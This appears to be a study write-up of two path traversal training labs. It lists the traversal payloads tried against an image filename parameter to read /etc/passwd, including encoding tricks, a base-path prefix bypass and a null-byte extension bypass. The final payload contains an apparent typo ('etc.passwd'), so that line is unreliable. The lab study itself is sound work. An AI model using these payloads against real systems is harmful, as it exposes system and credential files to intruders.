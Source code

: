 ___

### Lab: File path traversal, validation of start of path
<br>

Same as before, open BurpSuite Proxy and send to Repeater the request `GET /image?filename=53.jpg`. This request is been commanded by the browser to load the image `53.jpg` which is stored in the server. Let's try some path traversal attacks.

```bash
# First try to exit var/www/images
../../../etc/passwd #Nope

# Now try Absolute Path
/etc/passwd #Nope

# Server may have specific defences against path traversal attacks
# like removing suspicious characters (../)
....//....//....//etc/passwd #Nope

# Use of URL Encoding
# %2e = .
# %2f = /
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd #Nope

# Double URL Encoding
# %25 = %
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252Fpasswd #Nothing

# Server could take the absolute path and validate the base URL
# For example here the absolute path is /var/www/images/53.jpg
# and the base URL is /var/www/images
/var/www/images/../../../etc/passwd #Success
```
![attack](lab8.png)

___

### Lab: File path traversal, validation of file extension with null byte bypass
<br>

Same as before, open BurpSuite Proxy and send to Repeater the request `GET /image?filename=53.jpg`. This request is been commanded by the browser to load the image `53.jpg` which is stored in the server. Let's try some path traversal attacks.

The methods from the other labs don't apply here. Maybe the server checks the extention of the file, so let's try to use `NULL` character to end the line before the `.jpg` to bypass the check. We need to use the URL encoded value `%00`.

```bash
../../../etc.passwd%00.jpg
```
![attack](lab9.png)
